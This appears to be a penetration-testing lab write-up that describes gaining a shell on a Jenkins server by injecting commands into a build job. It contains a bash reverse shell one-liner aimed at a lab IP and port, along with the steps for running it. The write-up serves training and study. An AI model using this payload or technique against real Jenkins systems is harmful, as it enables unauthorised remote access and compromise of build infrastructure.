 # Exploit Jenkins

Searching for possible attack vectors I found an article by HackTricks [here](https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins) and following one method I saw a possible way in.

![[hacktricks.png]]

Then I tried to follow the steps with the "Sample job" project.

![[jenkins_attack_vector.png]]

First I tested the command execution by injecting:

```bash
bash --version
```

To check if I could use a bash reverse shell payload.

![[bash_test.png]]

Build the project and check the console output and I confirmed both the command execution and that bash was available.

![[bash_confirmed.png]]

Now let's try to set up a listener, inject a bash reverse shell payload and run it.

Use the IP of target 1 but the one on the pivoted network and start a handler.

![[final_handler.png]]

Then inject the payload on Jenkins.

![[final_bash_revshell.png]]

Then build the project.

That payload didn't work. Let's try another one.

```bash
bash -c "bash -i >& /dev/tcp/192.27.225.2/8888 0>&1"
```

Build and run again.

This time it worked, I spawned a shell  of user "jenkins"

![[jenkins_revshell.png]]

Now I tried to look for the flag.

![[target_2_flag_not_sure.png]]


Checking the lab solution gaining access was enough. But the proposed solution was different, creating a bind shell to the kali instance.